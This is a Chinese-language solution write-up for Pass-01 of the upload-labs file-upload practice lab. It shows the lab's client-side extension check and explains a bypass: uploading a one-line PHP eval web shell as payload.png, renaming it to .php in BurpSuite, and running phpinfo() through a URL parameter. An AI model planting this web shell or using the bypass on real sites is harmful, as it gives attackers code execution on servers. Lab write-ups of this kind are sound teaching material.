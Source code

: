 ## [[upload-labs](https://github.com/c0ny1/upload-labs)] [[Pass-01](http://127.0.0.1/Pass-01/index.php)] [[解题报告](http://exp-blog.com/2019/05/26/pid-3827/)]

------

## 题目

```php
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (file == null || file == "") {
        alert("请选择要上传的文件!");
        return false;
    }
    //定义允许上传的文件类型
    var allow_ext = ".jpg|.png|.gif";
    //提取上传文件的类型
    var ext_name = file.substring(file.lastIndexOf("."));
    //判断上传文件类型是否允许上传
    if (allow_ext.indexOf(ext_name + "|") == -1) {
        var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
        alert(errMsg);
        return false;
    }
}
```

------

## 解题

从源码很明显可以知道，代码只对上传的文件名后缀做检验，因此可以 **从客户端绕过** 。

伪造一个图片文件，文件名为 `payload.png` ，内容为 PHP 的一句话木马 ：

```php
<?php eval(@$_GET['exp']); ?>
```

上传此文件后，因为文件后缀为 `.png` ，所以即使打开图片也无法解析 PHP 代码。

![](http://exp-blog.com/wp-content/uploads/2019/05/4df5136adaeb6e5feb64d324e37c4c7e.png)

![](http://exp-blog.com/wp-content/uploads/2019/05/f7ff7a1eb842d98dc95d5092463e5713.png)


要绕过其实很简单，只需要用 BurpSuite 拦截上传文件的 POST 请求，然后修改 POST 内容中的文件名，把 `payload.png` 修改成 `payload.php` （注意 `Content-Type` 要确保为图片类型）。

![](http://exp-blog.com/wp-content/uploads/2019/05/bc6cfe473ce27def160359d5164653f4.png)

上传成功后，访问改名后的 `payload.php` 文件，并利用一句话木马执行 `phpinfo();` 命令：

```html
http://upload.labs/upload/payload.php?exp=phpinfo();
```

解析 `phpinfo();` 命令成功，完成挑战。

![](http://exp-blog.com/wp-content/uploads/2019/05/cf7b6c0da5c45b3efebcaecb8a58fc4f.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
